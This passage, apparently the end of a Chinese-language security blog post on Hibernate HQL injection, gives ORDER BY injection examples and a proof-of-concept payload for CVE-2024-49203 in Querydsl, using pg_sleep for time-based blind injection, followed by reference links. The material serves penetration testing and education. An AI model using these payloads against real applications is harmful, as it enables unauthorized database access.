 

## 案例2-orderby

- [ORM HQL Injection](https://medium.com/@oscuridad1010/orm-hql-injection-e072207e8942)

```sql 
/view?sort=createdAt,date   # 正常
/view?sort=createdAt,() 		# hql 报错
# Order by位置，注入点在联合查询的中间，需要平衡

/view?sort=createdAt,FUNCTION(CURRENT_INSTANT) 
```

- [CVE-2024-49203: Querydsl HQL orderby注入](https://github.com/advisories/GHSA-6q3q-6v5j-h6vg)

```sql
# poc: https://github.com/CSIRTTrizna/CVE-2024-49203/
orderBy=name INTERSECT SELECT t FROM Test t WHERE (SELECT cast(pg_sleep(10) AS text))=&#39;2&#39; ORDER BY t.id
```



## 参考资料

- [Hibernate官方文档](https://hibernate.org/orm/documentation/6.0/)
- [HQL文档](https://docs.jboss.org/hibernate/orm/6.3/querylanguage/html_single/Hibernate_Query_Language.html)
- [Hibernate – Query Language](https://www.geeksforgeeks.org/hibernate-query-language/)
- [HQL注入深入利用](https://mp.weixin.qq.com/s/b0RDuQSjibAKYl8HhhcBbg)
- [HQL for pentesters](https://blog.h3xstream.com/2014/02/hql-for-pentesters.html)
- https://ultramangaia.github.io/blog/2017/pwn2win-ctf-2017.html



---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/hibernate_hql_injection/  

